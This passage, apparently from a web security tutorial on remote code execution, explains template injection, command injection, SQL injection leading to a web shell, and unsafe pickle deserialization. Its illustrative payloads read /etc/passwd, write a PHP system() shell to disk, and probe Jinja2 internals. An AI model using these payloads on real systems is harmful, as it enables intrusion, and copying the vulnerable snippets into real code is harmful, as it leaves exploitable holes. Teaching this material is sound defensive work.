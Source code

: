 Popular in Python’s Jinja2 or Ruby’s ERB, SSTI occurs when user input is embedded in templates without sanitization:

```plaintext
template = Template(user_input)
```

An attacker can inject `{{config.items()}}` or worse, `{{().__class__.__bases__[0].__subclasses__()}}`.

---

## **How Hackers Exploit RCE (Step-by-Step)**

[![How Hackers Exploit RCE](https://media2.dev.to/dynamic/image/width=800%2Cheight=%2Cfit=scale-down%2Cgravity=auto%2Cformat=auto/https%3A%2F%2Fdev-to-uploads.s3.amazonaws.com%2Fuploads%2Farticles%2F4ibjxaimf1cer7y57bgm.png align="left")](https://media2.dev.to/dynamic/image/width=800%2Cheight=%2Cfit=scale-down%2Cgravity=auto%2Cformat=auto/https%3A%2F%2Fdev-to-uploads.s3.amazonaws.com%2Fuploads%2Farticles%2F4ibjxaimf1cer7y57bgm.png)

### **1\. Reconnaissance**

* Tools: Nmap, Shodan
    
* Targets: Service versions, open ports, directory structure
    

### **2\. Exploitation Techniques**

* **Command Injection (PHP)**:
    
    ```plaintext
    <?php $cmd = $_GET['cmd']; system($cmd); ?>
    // Exploited with: ?cmd=whoami
    ```
    
* **Command Injection (Node.js)**:
    
    ```plaintext
    const { exec } = require('child_process');
    exec(`ls -l ${userInput}`, ...);
    // ?input=; cat /etc/passwd
    ```
    
* **SQL Injection Leading to RCE**:
    
    ```plaintext
    <?php
    $query = "SELECT * FROM users WHERE username = '". $_GET['username']. "'";
    // Payload: ' UNION SELECT "<?php system($_GET['cmd']);?>" INTO OUTFILE ...
    ?>
    ```
    
* **Insecure Deserialization (Python + Pickle)**:
    
    ```plaintext
    import pickle
    user = pickle.loads(base64.b64decode(request.form['payload']))
    ```
    